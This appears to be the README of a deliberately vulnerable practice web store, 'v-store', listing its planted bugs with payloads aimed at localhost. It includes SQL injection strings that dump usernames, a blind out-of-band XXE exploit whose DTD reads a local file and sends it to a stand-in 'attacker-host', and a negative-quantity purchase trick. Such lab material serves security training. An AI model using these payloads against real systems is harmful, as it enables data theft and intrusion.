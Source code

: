# v-store
/Vstore

## Bug API
### 1. GET "/product/findUnsafe"
- Bug: SQLi
- Params: {name}
- Payload:
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://localhost:8080/product/findUnsafe?name=' OR 6776=6776#
    
    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://localhost:8080/product/findUnsafe?name=a'union+select+user_name,null,null,null+from+user;%23

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT (ELT(8054=8054,1))),0x716b717871),8054)-- jkbJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND (SELECT 5823 FROM (SELECT(SLEEP(5)))RyfP)-- FGig
    
### 2. POST "/product/showBillVuln"
- Bug: Blind Out-of-Band XXE
- Params: object User in body request
- Payload: 
+ SSRF 
```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://kayrz7fdlsb6w9gif751ob26rxxtli.burpcollaborator.net"> ]>
    <user>
      <id_user>&xxe;</id_user>
    </user>
  ```
+ OOB

--- DTD file ---
```
<!ENTITY % file SYSTEM "file:///d:/cache.txt">
        <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-host/%file;'>">
        %eval;
        %exfiltrate;
```
-- payload --
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://DTD-url"> %xxe;]>
<user>
<id_user>1</id_user></user>
```

### 3. POST "/product/buy"
- Bug: Logic
- Params: {num, id}
- Payload: num=-1&id=5
   
